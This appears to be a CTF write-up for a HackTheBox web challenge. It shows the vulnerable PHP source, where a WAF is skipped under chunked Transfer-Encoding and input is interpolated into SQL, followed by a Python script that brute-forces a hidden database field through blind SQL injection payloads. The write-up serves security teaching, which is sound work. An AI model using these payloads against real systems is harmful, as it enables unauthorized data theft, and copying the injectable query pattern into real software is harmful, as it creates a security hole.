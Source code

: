 ```yaml
---
title: Hackthebox Challenge - 0xBOverchunked
date: 2024-02-28
categories: [Writeups, Hackthebox Challenge]
tags: [CTF, Web, easy]
---
```


# 0xBOverchunked - EASY

## Description

<Sup>Author: @dhmosfunk</sup><br>
Are you able to retrieve the 6th character from the database?

## Solution

![img-description](/assets/img/2024-02-28-0xBOverchunked/website.png)
**After start machine I see a website with a searching page.**

But nothing even I can search id from 1 to 5 but id 6 is not allowed.

`Let's see the source code of the page.`

**index.php**

```html
<script>
  $(document).ready(function () {
    $("#search-form").submit(function (event) {
      event.preventDefault();
      var searchValue = $("input[name=search]").val();
      $.ajax({
        url: "Controllers/Handlers/SearchHandler.php",
        method: "post",
        data: { search: searchValue },
        success: function (response) {
          $("#results").html(response);
        },
      });
    });
  });
</script>
```

```php
<?php
require_once '../Database/Cursor.php';
require_once '../WAF/waf.php';

if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];

    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }

}
else
{
    if ((isset($_POST["search"])))
    {
        $search = $_POST["search"];
        if (waf_sql_injection($search))
        {
            // // <SNIP>
        }
        else
            // <SNIP>
    }
    else
    {
        echo "<div class='results'>Unsupported method!</div>";
        http_response_code(400);
    }

}

?>
```

**Cursor.php**

```php
<?php
require_once 'Connect.php';

function safequery($pdo, $id)
{
    if ($id == 6)
    {
        die("You are not allowed to view this post!");
    }

    $stmt = $pdo->prepare("SELECT id, gamename, gamedesc, image FROM posts  WHERE id = ?");
    $stmt->execute([$id]);

    $result = $stmt->fetch(PDO::FETCH_ASSOC);

    return $result;
}

function unsafequery($pdo, $id)
{
    try
    {
        $stmt = $pdo->query("SELECT id, gamename, gamedesc, image FROM posts WHERE id = '$id'");
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        return $result;
    }
    catch(Exception $e)
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}

?>
```

in the `index.php` I see after click on search button it will send a request to `SearchHandler.php` with the value of the search input.

### Concept of Chunked Transfer Encoding

After analyzing the source code I see that the server is checking for `HTTP_TRANSFER_ENCODING` and if it is `chunked` then it will execute function unsafequery.

The first vuln I aim to exploit is `Request Smuggling` it working but if you see into source code I can use unsavequery to query id 6 but they always send data back with.

````php
echo "
<div class="results">No post id found.</div>
";```
````

That mean I need to use `Blind SQL Injection` to get the flag.

But in that point I don't know how to do it because I don't know about `Transfer-Encoding: chunked` so I search on google and I found a good article about it.

[https://sc.scomurr.com/http-request-smuggling-te-cl-vulnerability/](https://sc.scomurr.com/http-request-smuggling-te-cl-vulnerability/)

After learn about it I know that I can use `Transfer-Encoding: chunked` to bypass the WAF and get the flag.

### Exploit

```python
import requests
import string

possible = string.ascii_letters + string.digits + string.punctuation + ' '

url = input('Enter the URL: ')
path = '/Controllers/Handlers/SearchHandler.php'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Transfer-Encoding': 'chunked'
}
ERROR_MSG = "Internal Server Error"

flag = "HTB"
while flag[-1] != '}':
    for i in possible:
        print(f'Test {i}',end='\r')
        query_data = f"search=1' and (select substr(gamedesc,{len(flag)+1},1) from posts where id='6')='{i}'--"
        hex_len = hex(len(query_data))[2:]
        header_data = f'{hex_len}\r\n'
        end_data = '0\r\n'

        data = header_data + query_data + end_data
        response = requests.post(url, headers=headers, data=data)

        if ERROR_MSG not in response.text:
            flag += i
            print(flag)
            break
```

> {: .prompt-tip }
